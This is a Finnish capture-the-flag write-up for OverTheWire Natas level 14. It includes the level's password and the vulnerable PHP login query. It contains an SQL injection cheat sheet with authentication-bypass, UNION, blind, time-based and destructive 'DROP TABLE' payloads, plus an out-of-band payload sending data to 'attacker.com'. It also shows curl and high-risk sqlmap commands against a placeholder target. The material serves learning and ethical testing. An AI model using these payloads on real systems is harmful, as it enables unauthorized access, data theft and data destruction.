 # level 14 - START HERE

natas14 : z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

Perus selvittämistä ja tässä näyttää ainakin koodin ainakin on *username ; password* mahtaako olla koskien SQL injektiota tai tavallinen shell injektiota? 

PHP - koodikielessä ainakin (_index-source.html_) on *query* - kyselly, että hakee käyttäjännimen ja salasanansa, että jos täsmää sitten päästään eteenpäin, että pääsee hakee seuraavan levelin salasanansa, eli on **SQL injektio**.

ainakin pikaisella testauksella syötä **username:username** , **password:password** - *access denied!*

![alt text](./kuvat-level11-15/natas14-0.png)

![alt text](./kuvat-level11-15/natas14-1.png)


Tämä osuus ainakin kertoo kyseessä on SQL injektio ja tämä funktio:
```
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

```

Sekä mahdolliset avain sanat meitä varmaan kiinnostaa ja debbugoida on ainakin.. `GET`, `username`, `password` ja `debug` parametrit. Tärkeimistä ainakin tarkistettu F12 ja url perään laitettu `/robots.txt`, että ei apua joten alettaan käydä kiinni mm. `curl` - komennon kautta ja jne.


## Level 14 - 1 SQL injektio

SQL-injektio on hyökkäysmenetelmä, jossa käyttäjä syöttää haitallista SQL-koodia sovelluksen lomakkeisiin tai URL-parametreihin, jotka eivät ole kunnolla suojattu. SQL-injektiota voidaan kokeilla lisäämällä erityisiä merkkejä (kuten `' OR 1=1 --`) URL-parametreihin ja katsoa, kuinka palvelin reagoi.

Jos palvelin ei ole suojattu kunnolla, se voi altistua SQL-injektiolle ja paljastaa tietoja tai jopa antaa mahdollisuuden kirjautua sisään ilman oikeaa salasanaa.

Esim. yritettään päästä login sisäänsä sen **username;password** 
```
username=' OR '1'='1
password=' OR '1'='1
```

- SQL kysely; SELECT * FROM users WHERE username = 'alice' AND password = 's3cr3t';

**muita esim.** <br>
```
SELECT * FROM users WHERE username = 'alice' AND password = 's3cr3t';
SELECT * FROM users WHERE username = 'alice' OR '1'='1' AND password = 's3cr3t' OR '1'='1';
```

**Miksi juuri "alice"?** <br>
Alice on valittu mahdollisesti esimerkkinä, koska se on helppo arvata ja käyttää testissä. Jos tietoturva-asiantuntijat suunnittelevat tällaisia haasteita, he voivat käyttää yleisiä nimiä (kuten "alice", "bob", "admin"), jotta voit kokeilla niitä oletuksena.


Alice voi myös liittyä johonkin järjestelmän oletusasetuksiin, tai se voi olla oletuskäyttäjä (vaikka tämä on vähemmän todennäköistä).

Täysin mahdollista, että tässä URL:ssa on SQL-injektio-aukko, ja "alice" voi olla käyttäjätunnus, jota pyritään hyödyntämään. SQL-injektiota voidaan kokeilla lisäämällä erityisiä merkkejä (kuten `' OR 1=1 --`) URL-parametreihin ja katsoa, kuinka palvelin reagoi.

Jos palvelin ei ole suojattu kunnolla, se voi altistua SQL-injektiolle ja paljastaa tietoja tai jopa antaa mahdollisuuden kirjautua sisään ilman oikeaa salasanaa.

## SQL Injektio - Whitehat
**white hat -testaajat** (eli eettiset hakkeroijat, penetraatiotestaajat jne.) käyttävät hyvin usein juuri tuollaista SQL-injektiorakennetta testatessaan, onko verkkosovellus altis SQL-injektiolle.

**Klassinen SQL-injektio:** <br><br>
Jos lomake tai URL-parametrit välitetään suoraan SQL-kyselyyn ilman suojausta, kuten:<br>
`SELECT * FROM users WHERE username = '[syöte]' AND password = '[syöte]';`

password (syöte) siis joku satunnainen sana väliin <br>

<br>
Tällöin kyselystä tulee käytännössä: <br>

`SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = '';`

<br>
Mitä tämä tekee?<br>

```
' OR 1=1 --:
' päättää alkuperäisen stringin.
OR 1=1 on aina tosi, joten se ohittaa autentikoinnin.
-- on SQL-kommenttimerkki, joka kommentoi loput rivistä pois (eli AND password = ... jää huomiotta).
```

### SQL injektio muita menetelmiä 

nykyaikainen white hat -testaus ja hyökkäystavat voivat käyttää monia eri tekniikoita riippuen sovelluksen rakenteesta, suojauksista ja tietokannasta.


1. UNION SQL Injection <br>
' UNION SELECT username, password FROM users --


2. Tautology Injection (klassikko: OR 1=1) <br>
' OR 1=1 --


3. Blind SQL Injection (Boolean-based) <br>
' AND 1=1 --   # toimii
' AND 1=2 --   # ei toimi


4. Time-based Blind SQL Injection <br>
' OR IF(1=1, SLEEP(5), 0) -- 


5. Error-based SQL Injection <br>
' ORDER BY 100 -- 


6. Stacked Queries (jos sallittu) <br>
'; DROP TABLE users; --


7. Second-order SQL Injection <br>
Tätä ei suoriteta heti, vaan tallennetaan ensin ja suoritetaan myöhemmin toisessa yhteydessä. Eli ensin rekisteröidään käyttäjänimi ja sitten 


8. Out-of-Band SQL Injection <br>
Tämä vaatii erityisiä olosuhteita, ja SQL-injektio lähettää tiedon ulos järjestelmästä, esim. DNS-kyselynä: <br>
' OR LOAD_FILE('\\\\attacker.com\\file') -- 



9. Using SQL Comments Smartly <br>
-- (yksirivinen kommentti) <br>
/* comment */ (monirivinen) <br>
%23 (URL-koodattu #, MySQL-kommentti) <br>
esim: `' OR 1=1 /*'`


✅ Miten white hat testaa eri metodit? <br>
- Kokeilee klassista: `' OR 1=1 --`
- Testaa error-muotoja ja katsoo mitä virheilmoituksia tulee <br>
- Testaa blind-injektiot jos mitään ei palaudu <br>
- Vahvistaa että kyseessä on injektio testaamalla SLEEP, ORDER BY, jne. <br>
- Käyttää automatisoituja työkaluja kuten sqlmap <br>

## Harjoitusta kohti mestariksi

Alkuum meneekin `' OR 1=1 --` - koska se on perusideana mikä lähtee harjoittelusta. Sitä näkee nopeasti, reagoi järjestelmän jollakin tavalla, että onnistuuko kirjautuminen vai tuleeko virhettä, jäätyykö pyyntö ja tms. Tämä periaatteessa toimii kuin ensimmäinen _pingi_ eli testaa onko järjestelmässä injektiota. 

Periaatteessa tämä `' OR 1=1 --` - voi toimia pienenä lunttilappuna ja pikaisella koodina.

Jos taso menee vaikeammaksi niin lomake kenttään käytä suodatusta  ' - merkkiä 

Muita vaiheita tulee mukaan:
- Blind SQLi (testataan vaikka `AND 1=1` vs. `AND 1=2` ja katsotaan käyttäytyminen)
- Time-based SQLi (esim. `SLEEP(5)`-pohjaiset injektiot)
- Automatisointi (sqlmap) kun payloadit monimutkaistuvat


## SQL injektio kali linux:issa

`curl "http://target.site/login?username=admin' OR 1=1 --&password=whatever"`

```
curl -X POST http://target.site/login \
  -d "username=admin' OR 1=1 --&password=whatever"
```

**Sqlmap** - joka antaa automaattisesti erilaisia sql injektio, et tunnistaa classic/blind/time-based ja union pohjaisia, jne.
`sqlmap -u "http://target.site/login?username=admin&password=test" --batch --risk=3 --level=5`


---

# Level 14 - 2 - virallinen testi ja harjoitus - START HERE

Tähän väliin tulee muutamia kuvia, josta on suoritettu testejä ja vasta sen jälkeen toimivista ainakin osa antoi pientä vihjettä.

**TESTI1**
![alt text](./kuvat-level11-15/natas14-2.png)

**TESTI2** - et lisäsin alkuun ton _sadf'_ 
![alt text](./kuvat-level11-15/natas14-3.png)

**TESTI3** tässä alkoi tapahtua jotakin seuraavina, että antoi tämän tiedostonhakemiston polunsa eli **var/www/natas/natas14/index.php** ja jne.
![alt text](./kuvat-level11-15/natas14-4.png)
![alt text](./kuvat-level11-15/natas14-5.png)

**TESTI4** seuraava testinä joka toimii sama ideana kuin aikaisempi, mutta virheitä ja voi ollaan lähellä maalia. 
![alt text](./kuvat-level11-15/natas14-6.png)
![alt text](./kuvat-level11-15/natas14-7.png)

**TESTI5** <br>
![alt text](./kuvat-level11-15/natas14-8.png)
![alt text](./kuvat-level11-15/natas14-9.png)

**TESTI6** seuraavina testeinä aloin kokeilla iskeä sitä SQL-injektiota URL-perään, kun PHP-koodi pätkässä viittasi tämän _if_ lausekkeensa `if(array_key_exists("debug", $_GET)) {`. Perään sijoitin pari-muutama  `&&` merkin, koska ne viittaa kyseisen lomakkeen username;password formaattia.  
![alt text](./kuvat-level11-15/natas14-10.png)


**TESTI7** tämä on sama idea kuin aikaisempi, mutta perässä on tämä `' OR 1=1 --` - joka on enkodaattu ja näin se sijoittuu URL-perään. Jos menisi lomakkeen kautta se ois kuin `"admin' OR 1=1 --`.

**`' OR 1=1 --`** - enkoodattuna: <br>
Tämä enkodaattu pätee myös todellisuudessaan kirjauttumisen formaattissa ja URL:issa , periaate pätee todellisuudessakin web-sovelluksissa, jos ne ovat haavoittuvia SQL-injektiolle.

![alt text](./kuvat-level11-15/natas14-11.png)

![alt text](./kuvat-level11-15/natas14-12.png)

![alt text](./kuvat-level11-15/natas14-13.png)








